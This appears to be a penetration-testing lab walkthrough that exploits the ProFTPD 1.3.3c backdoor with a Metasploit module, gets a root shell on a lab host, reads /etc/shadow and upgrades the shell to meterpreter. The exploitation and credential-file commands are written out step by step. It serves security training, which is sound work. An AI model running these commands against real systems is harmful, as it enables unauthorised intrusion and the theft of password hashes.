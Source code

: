 Because we're going to be making use of a post exploitation module, and we're going to be saving the credentials or hashes that we dump, we need to start up the Postgresql database service, which will consequently allow us to utilize the Metasploit Framework database.

```
service postgresql start
```

```
msfconsole
setg RHOSTS 192.234.199.3
search ProFTPD
use exploit/unix/ftp/proftpd_133c_backdoor
show options
exploit
```

This should provide me with a command shell session, which I will then upgrade to a meterpreter session. We should get a command shell session.

Before we upgrade this command shell session, which is non-interactive, let us access the shadow file.

```
/bin/bash -i
```

We currently have root access on the target system, which means we do not need to elevate our privileges.

```
cat /etc/shadow
```

The shadow file contains the username and then the value of the hashing algorithm. The value is encapsulated by the dollar symbol. So if it's six, then that means that the hashing algorithm is SHA-512. So that means that the root user password has been encrypted or hashed using the SHA-512 algorithm. That's a very important thing to take into consideration, especially when you're cracking Linux user account password hashes.

The way you copy it is very important. There's a Metasplot Framework module that can be used to unhash or unshadow this particular hash. And it'll save that for you in a file or a text file.

```
^Z
```

If I list out my sessions, I have the command shell session, which I will upgrade to a meterpreter session.

```
sessions
sessions -u 1
```

We've obtained a meterpreter session.

```
sessions
```
